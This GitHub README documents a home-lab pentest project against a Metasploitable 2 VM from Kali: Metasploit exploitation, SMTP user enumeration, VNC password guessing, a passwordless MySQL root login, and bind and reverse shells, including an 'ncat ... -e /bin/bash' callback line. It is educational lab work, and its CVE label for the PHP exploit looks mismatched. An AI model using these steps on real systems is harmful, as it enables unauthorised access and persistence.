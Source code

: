 # Metasploitable-Nessus-Project
This project is about setting up a Metasploitable 2 virtual machine and a Kali Linux virtual machine in VirtualBox. Then doing some basic hacks on the Metasploitable VM. Then doing a Nessus scan to create a vulnerability report.
<br><br>
Scenario: a client asks me to do a vulnerability assessment on their network. I will first map the network, identify all devices on the network, identify open ports on each device and services/applications running on each port, then do vulnerability scans on each device in the network, then create a report to return to the client including a diagram of their network, a list of vulnerabilities on the devices in their network, and a path to fixing all the vulnerabilities.  
<br>
This idea for this project came from MyDFIR.<br>
https://youtu.be/G7e5Uw6RO_E?si=z9fg1MsDhFgtP9Z_&t=726
<br><br>
_________________________
**Installing VirtualBox**<br>
-Make sure virtualization is enabled on your computer.<br>
-Download VirtualBox from this link: 
https://www.virtualbox.org/wiki/Downloads<br>
-Install it.<br>

**Installing Metasploitable 2**<br>
-Download Metasploitable 2 from this link: 
https://docs.rapid7.com/metasploit/metasploitable-2/<br>
-Open VirtualBox and create a new virtual machine and use the virtual machine hard disk.<br>
-Make sure it is on the same network as the machine you will run Nessus on.<br>
-Boot it up and sign in using credentials: msfadmin for the username and password.<br>
-For a walkthrough, follow this YouTube tutorial: 
https://youtu.be/1rIvnMenA2g?si=UOwItJeTInN6-GU6<br>

**Downloading Kali Linux**<br> 
-Download Kali Linux from this link: 
https://www.kali.org/get-kali/#kali-virtual-machines<br>
-Open VirtualBox and create a new virtual machine and use the .iso file.<br>
-Boot it up.<br>

**Installing Nessus**<br>
-Download Nessus from this link:
https://www.tenable.com/downloads/nessus<br>
-Confirm download integrity using checksum then install it.<br>
-Connect via SSL and get Nessus Essentials for the free version.<br>
-Create an account and activation code.<br>
-Wait until the plugins are finished before doing a scan.<br>
-For a walkthrough, follow this YouTube tutorial: 
https://youtu.be/G7e5Uw6RO_E?si=UQfBaMUNhvuEMk35<br>

**Hacks on Metasploitable VM from Kali VM**<br>
**Hack One:** I exploited CVE-2024-4577, an argument injection vulnerability in PHP, which gave me access to an Apache server which was running PHP scripts.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS OF TARGET] -sV).<br>
-Port 80, which is HTTP, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Find a scanner to find what is running on HTTP and its version (grep scanner search http_version).<br>
-The results should show scanners for HTTP.<br>
-Use the listed scanner (use 0) and list the details of the scanner (show options) then configure the missing details like rhosts (set rhosts [IP ADDRESS OF TARGET]) and run the scanner (run).<br>
-The result of the scan shows the services and versions of the services running on HTTP port 80.<br>
-Then search for vulnerabilities for that version of the service and limit the search to only show vulnerabilities that have something to do with whats it running on the service (searchsploit Apache 2.2.8 | grep php).<br>
-The result of this search should be vulnerabilities on this service.<br>
-Next search through Metasploitable for any exploits for any of those vulnerabilities (grep cgi search php 5.4.2).<br>
-The result of the search should return ready-to-use exploits.
-Use it (use 1) and look at the details of the exploit (show options) and fill in any details you need like rhosts (set rhosts [IP ADDRESS OF TARGET]) and exploit it (exploit).<br>
-Confirm you are now in the target machine (sysinfo (this should return information about the target system)).<br>
<br>

**Hack Two:** I gathered a list of user accounts from an SMTP server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 25, which is SMTP, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for SMTP (grep scanner search smtp).<br>
-The results should show scanners for SMTP.<br>
-Pick the scan you want (use 25) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-This scan will enumerate through a user list and try to verify user accounts on the SMTP server using a list that already comes with Kali and Metasploitable called USER_FILE which is found the detail when you run show options. The result of this is scan will be a list of user accounts found on the SMTP server.<br>
-Now you have a list of user accounts on the SMTP server that you can attack further.
-You can also access the SMTP server using Telnet (telnet [IP ADDRESS OF TARGET] 25) and now you are in the SMTP server.<br>
<br>

**Hack Three:** I found an account login password on a VNC server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 5900, which is VNC, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for VNC (grep scanner search vnc).<br>
-The results should show scanners for VNC.<br>
-Pick the scan you want (use 88) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-This scan will enumerate through a password list and try to log into user accounts on the VNC server using a list that already comes with Kali and Metasploitable called PASS_FILE which is found the detail when you run show options. The details show here that there is no selected, or required, username or username list but one can be added. This scan will result in successful logins from the password list, if any.<br>
-The result of this scan found an account where the password was "password" that you can now simply log into.<br>
<br>

**Hack Four:** I logged into the root user account of a MySQL server.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Port 3306, which is MySQL, is open.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Pick a scanner for MySQL (grep scanner search mysql).<br>
-The results should show scanners for VNC.<br>
-Pick the scan you want (use 18) and show the details of the scan (show options) and configure missing details need for the scan (set rhosts [IP ADDRESS OF TARGET]) and run the scan (run).<br>
-The details of this scan shows that it is going to try to find a login for a username of "root", which is a safe bet considering there is always some type of root user, but those details can be changed if so desired (set [field] [information for the field]).<br>
-The result of this scan found a root account but was unable to get the password because the length of the password was 0 characters, meaning there is no password for the root account.<br>
-Try to log into the MySQL root account of the Metasploitable server (mysql -u root -h [IP ADDRESS OF TARGET] -p) and read the error message saying "TLS/SSL error: wrong version number" meaning the version of SSL/TLS is outdated or bad for one reason or another.<br>
-Modify the MySQL command to skip SSL/TLS certification altogether (mysql -u root -h [IP ADDRESS OF TARGET] -p --skip-ssl) and want prompted for the password hit enter.<br>
-You are now in the target's MySQL account as the root user.<br>
<br>

**Hack Five:** I connected to the target machine with a bind shell and set up a reverse shell.<br>
-Do an nmap scan on Metasploitable IP address for open ports and running services (nmap [IP ADDRESS] -sV).<br>
-Found a Bindshell open on port 1524.<br>
-Opened Metasploit Framework (MSF) console (msfconsole).<br>
-Used netcat (ncat [IP ADDRESS OF TARGET] 1524) (could have also used telnet or ssh on port 1524 or on their own specific ports) and accessed the target machine.<br>
-You now have access to the target machine using a bind shell.<br>
<br>
The next part will be setting up a reverse shell which is used for an attacker to be able to continue to access a target machine after the initial infiltration, for persistance.<br>
<br>
-Set up a listener on your machine over any open port (nc -nvlp [PORT NUMBER]).<br> 
-Once you are already in the target machine, use netcat (or another tool like telnet or ssh) to establish a connection back to the your machine (ncat [YOUR IP ADDRESS] [SAME PORT NUMBER] -e /bin/bash).<br>
-The listener on your machine will pick up the connection and now you have an active reverse shell and can access the target machine and have the connection being established from within the target machine, which is better than a bindshell because there is no open listening port on the target machine which may look suspicous to network monitoring tools, there is no need to evade any firewall restrictions, there is no need to try to get around the target using NAT, there is no issue if the target's IP address changes, etc.<br>
<br>

-For a walkthrough on any of these hacks, follow this YouTube playlist: 
https://youtube.com/playlist?list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA&si=QwL9kPkdTvL_J5a1<br>

**Nessus Scans**<br>
